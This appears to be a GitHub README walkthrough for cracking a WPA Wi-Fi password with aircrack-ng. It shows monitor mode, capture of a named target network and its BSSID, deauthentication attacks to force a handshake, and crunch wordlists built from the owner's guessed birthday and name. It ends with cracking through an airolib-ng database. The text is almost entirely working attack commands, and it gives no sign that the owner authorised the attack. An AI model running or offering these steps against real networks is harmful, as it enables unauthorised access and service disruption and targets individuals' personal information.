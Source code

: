 # Example crack wpa attack with aircrack-ng

i use tp-link wn725n (chipset rtl8188eus) and parrotOS

connect your card wifi and check

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/168417974-d9650a49-951b-4a6f-ab8b-12e4f7cd7455.png)

```
airmon-ng check kill
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418068-964e3312-b269-44fc-9721-398be478f2ce.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418114-4d4e8f16-58ec-4358-bc99-dd625f4e7d26.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19` to monitor close

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418356-e901847a-143e-4509-85b2-efeb783b1ca1.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418251-fe850fa5-0687-4241-836d-9d287f276e95.png)

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

or redirect directly from crunch

```
crunch <min> <max> <charset> -t <pattern> | aircrack-ng -w- out*.cap
```

add `--bssid 5C:1A:6F:88:19:19` if there is some error cann't identify bssid

![image](https://user-images.githubusercontent.com/90561566/193245022-8c0a5de2-32c6-4b34-bb8d-30dc8ce51521.png)

speed of cracking about 1kp/s at least depend on your hardware processor (normally about 2-3kp/s)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

done! there is the password (crack speed is about 36kp/s)

![image](https://user-images.githubusercontent.com/90561566/166684325-e337e6cd-f376-4172-91a2-617a80a3156c.png)

```
airmon-ng stop <iface>
service NetworkManager restart
```

![image](https://user-images.githubusercontent.com/90561566/168418601-6af69920-10bc-47ea-b5d7-7d5fc0ea3017.png)

